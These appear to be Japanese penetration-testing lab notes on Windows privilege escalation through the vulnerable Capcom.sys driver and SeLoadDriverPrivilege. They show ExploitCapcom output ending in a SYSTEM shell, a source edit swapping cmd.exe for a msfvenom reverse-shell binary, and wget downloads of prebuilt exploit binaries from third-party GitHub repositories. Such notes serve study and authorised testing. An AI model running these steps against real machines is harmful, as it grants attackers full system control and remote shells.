 ExploitCapcomツールを使用して権限昇格
- Capcom.sys を悪用するには、Visual Studioでコンパイルした後、ExploitCapcomツールを使用する
	- SYSTEM権限を持つシェルが起動する
```powershell-session
PS C:\htb> .\ExploitCapcom.exe

[*] Capcom.sys exploit
[*] Capcom.sys handle was obained as 0000000000000070
[*] Shellcode was placed at 0000024822A50008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
```

ターゲットにGUIアクセスがない場合
- コンパイルする前に ExploitCapcom.cpp のコードを修正する必要がある
- 292行目を編集し、"C:\\Windows\\system32\\cmd.exe" を、例えば msfvenom で作成したリバースシェルバイナリ（例: c:\ProgramData\revshell.exe）に置き換えることができる
```c
// Launches a command shell process
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}
```
CommandLine 文字列は、以下のように変更される
`TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");`

#### 手順の自動化
- EopLoadDriverによる自動化
	- 特権の有効化、レジストリキーの作成、およびNTLoadDriverの実行によるドライバーロードプロセスを自動化できる
	- ExploitCapcom.exe を実行してSYSTEMシェルを起動するか、カスタムバイナリを実行する

```sh
wget https://github.com/crum7/exe_vault/raw/refs/heads/main/EoPLoadDriver.exe
wget https://github.com/Ant1sec-ops/Compiled-capcom-exploit/raw/refs/heads/main/Capcom.sys

```

```cmd-session
C:\htb> EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-454284637-3659702366-2958135535-1103\System\CurrentControlSet\Capcom
NTSTATUS: c000010e, WinError: 0
```
